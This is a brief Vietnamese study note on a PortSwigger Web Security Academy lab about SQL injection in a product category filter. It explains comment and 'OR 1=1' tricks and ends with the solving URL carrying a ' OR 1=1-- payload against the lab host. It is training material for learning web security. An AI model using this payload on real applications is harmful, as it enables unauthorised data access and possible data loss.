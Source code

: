 I. Lý thuyết
+ --: dùng để chỉ phần còn lsji của truy vấn đc xem như comment
+ OR 1=1: luôn đúng -> trả về all iterm (nên cận thận vì nó can vô tình update hoặc xóa data
II. Lap
This lab contains a SQL injection vulnerability in the product category filter. When the user selects a category, the application carries out a SQL query like the following:

SELECT * FROM products WHERE category = 'Gifts' AND released = 1
To solve the lab, perform a SQL injection attack that causes the application to display one or more unreleased products.
https://portswigger.net/academy/labs/launch/d9a071d8264e85184722707ff5747bbbd77963967d1d01f1b22f5dd8252f9767?referrer=%2fweb-security%2fsql-injection%2flab-retrieve-hidden-data
III. Giải
+ truy cập vào 1 mục và nhập: https://0a0400720403c0b380af71de0082002d.web-security-academy.net/filter?category=Accessories%20%27+OR+1=1--

